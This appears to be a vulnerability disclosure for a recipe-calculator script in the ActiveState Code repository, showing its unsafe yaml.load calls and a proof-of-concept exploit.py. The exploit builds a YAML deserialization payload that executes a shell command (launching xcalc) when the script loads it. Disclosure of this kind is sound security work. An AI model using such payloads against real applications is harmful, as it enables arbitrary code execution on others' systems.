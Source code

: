 # Description
Welcome to the ActiveState Code recipes repo! We have migrated all of the great content from code.activestate.com to its new forever-home here at GitHub. This makes it easier for everyone to submit new recipes, contribute code and integrate all the great information into their own projects.
* **Vulnerability discription**
unsafe loading of data by the yaml.load function leading to Arbitrary code execution.
# Proof of Concept
* Vulnerable code part 
```python
def main(yml_food, yml_recipe):
    food = yaml.load(open(yml_food).read())
    recipe = yaml.load(open(yml_recipe).read())
    #https://github.com/ActiveState/code/blob/master/recipes/Python/93379_Recipe_Calculator/pyfood.py#L18
    #https://github.com/ActiveState/code/blob/master/recipes/Python/93379_Recipe_Calculator/pyfood.py#L17
```
1. run exploit.py
```python
# exploit.py
# this exploit is for simple recipe calculator in ActiveState/code repository
import os
os.system('git clone https://github.com/ActiveState/code.git')
os.chdir('code/recipes/Python/93379_Recipe_Calculator/')
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
os.system('rm exp.yml')
open('exp.yml','w+').write(exploit)
os.system('python pyfood.py --yml-food=exp.yml --yml-recipe=exp.yml')
os.system('rm exp.yml')
```

![](https://user-images.githubusercontent.com/43377443/103462295-32cac400-4d4a-11eb-9a2e-b4e1667e089b.png)
